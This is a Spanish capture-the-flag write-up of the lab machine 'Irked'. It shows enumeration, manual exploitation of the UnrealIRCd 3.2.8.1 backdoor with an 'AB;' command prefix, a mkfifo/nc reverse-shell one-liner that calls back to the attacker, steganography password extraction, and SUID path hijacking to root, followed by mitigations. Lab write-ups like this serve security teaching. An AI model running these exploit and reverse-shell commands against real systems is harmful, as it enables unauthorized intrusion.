







# Irked

## Resumen

Máquina Linux que corre un **UnrealIRCd 3.2.8.1** con una puerta trasera conocida
(CVE-2010-2075) que da ejecución de comandos como el usuario `ircd`. Una nota con una
contraseña lleva a un mensaje oculto por **esteganografía** en una imagen de la web, que
revela la contraseña de `djmardov` (flag de usuario). La escalada a root se consigue
abusando de un binario **SUID** (`viewuser`) que ejecuta `/tmp/listusers` sin ruta
absoluta: creando ese fichero se consigue una shell como root.

## Reconocimiento

Empezamos con un ping para ver el TTL y determinar el sistema operativo:

```
64 bytes from 10.129.83.7: icmp_seq=1 ttl=63 time=52.8 ms
```

Por el TTL (cercano a 64) se trata de una máquina Linux.

## Enumeración

### Puertos y servicios

```
nmap -p- --open -T4 --min-rate 5000 -Pn -v 10.129.83.7
```

```
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
50951/tcp open  unknown
65534/tcp open  unknown
```

Detallamos los servicios:

```
nmap -p 22,80,111,6697,8067,50951,65534 -sVC --min-rate 5000 -T4 -Pn -v 10.129.83.7
```

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
50951/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux
```

Lo llamativo es que hay **UnrealIRCd** en tres puertos (6697, 8067, 65534), un servicio
históricamente ligado a una *backdoor*. El `--script vuln` sobre el 80 solo destaca
`/manual/` (la documentación de Apache), nada aprovechable.

### Fuzzing de la web

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.83.7/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.txt,.html -t 100 -ac -c
```

Solo aparecen `index.html` y `manual/`. Dentro de `manual/` únicamente está la
documentación de Apache en varios idiomas. Como la web no da más, la clave está en los
puertos que nos dejamos: **UnrealIRCd**, que no revela su versión por mucho que se escanee
pero es muy conocido por la *backdoor*.

## Explotación

Con `searchsploit` y `search UnrealIRCd` en Metasploit aparece el módulo de la *backdoor*:

```
exploit/unix/irc/unreal_ircd_3281_backdoor   UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

En mi caso Metasploit no funcionó, así que analicé el exploit para hacerlo **a mano**. La
clave del *backdoor* es esta línea:

```
sock.put("AB;" + payload.encoded + "\n")
```

Es decir: nos conectamos al IRC, enviamos `AB;` y a continuación cualquier comando, que el
servidor ejecuta. Lo probamos conectándonos con `nc` y lanzando un ping hacia nosotros,
mientras escuchamos ICMP con `tcpdump`:

```
nc 10.129.83.7 6697 UnrealIRCd
AB; ping -c 1 10.10.16.120
```

```
tcpdump -ni tun0 icmp
```



Confirmada la ejecución, lanzamos una *reverse shell* por el mismo método:

```
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.120 4444 >/tmp/f
```

```
nc -lvnp 4444
```

Recibimos la shell como el usuario `ircd`. La estabilizamos con el truco de siempre:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

## Escalada de privilegios

### De ircd a djmardov (esteganografía)

En el directorio personal de `djmardov`, dentro de `Documents/`, hay una nota oculta
(`.backup`):

```
cat .backup
```

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```



«steg» es **esteganografía**: ocultar datos dentro de otro fichero. En esta máquina, el
mensaje está escondido en la imagen de la web del puerto 80:


Descargamos la imagen y la abrimos con **steghide**, usando como contraseña la de la nota:

```
steghide extract -sf irked.jpg
```



Sale un `pass.txt` con la contraseña de `djmardov`:

```
cat pass.txt
```



```
CONTRASEÑA djmardov -> Kab6h+m+bbp2J:HG
```

Con ella entramos como `djmardov` y leemos la primera flag:

```
cat /home/djmardov/user.txt
```



```
USER FLAG -> da3066042ec6e77064fc48aa08cf20f9
```

### De djmardov a root (binario SUID)

Buscamos binarios con SUID:

```
find / -perm -4000 -type f 2>/dev/null
```

El único raro es **`viewuser`**:



Analizándolo con `ltrace` se ve que hace dos cosas importantes:

```
setuid(0) = 0
system("/tmp/listusers")
```

Es decir: se pone como **root** (`setuid(0)`) y ejecuta `/tmp/listusers` **sin ruta
completa controlada**, un fichero que no existe. Como podemos escribir en `/tmp`, creamos
ese fichero con una shell:

```
cd /tmp
echo '/bin/bash' > listusers
chmod +x listusers
/usr/bin/viewuser
```

`viewuser` ejecuta nuestro `listusers` siendo root, y nos devuelve una shell de root:



```
cat /root/root.txt
```

```
ROOT FLAG -> 6203fd30afde2cde822c36a1d2600c0e
```

## Mitigación

- **Actualizar o retirar UnrealIRCd 3.2.8.1**: esa versión incluye una puerta trasera
  (CVE-2010-2075). Usar una versión limpia y verificar la integridad del software.
- **No guardar contraseñas en notas** accesibles (`.backup`), ni confiar en la
  esteganografía como protección: es ocultación, no cifrado.
- **Revisar los binarios SUID**: `viewuser` no debería ser SUID de root, y menos
  ejecutando un programa con ruta relativa o escribible. Usar rutas absolutas y no
  invocar `system()` sobre ficheros que un usuario pueda controlar.
- Aplicar el **principio de mínimo privilegio** y mantener Apache y el resto de servicios
  actualizados.

## Qué he aprendido

- Cuando un servicio «famoso» (UnrealIRCd) no revela su versión pero es conocido por una
  *backdoor*, vale la pena probarla: aquí el camino estaba en los puertos que casi
  descarto.
- Si Metasploit falla, **leer el exploit** y reproducirlo a mano (el simple `AB;` + comando)
  enseña mucho más y muchas veces funciona mejor.
- La esteganografía es solo ocultación: una nota con la contraseña la rompe entera.
- Un *path hijacking* sobre un binario SUID que llama a `system()` con ruta controlable es
  una escalada clásica y muy limpia.
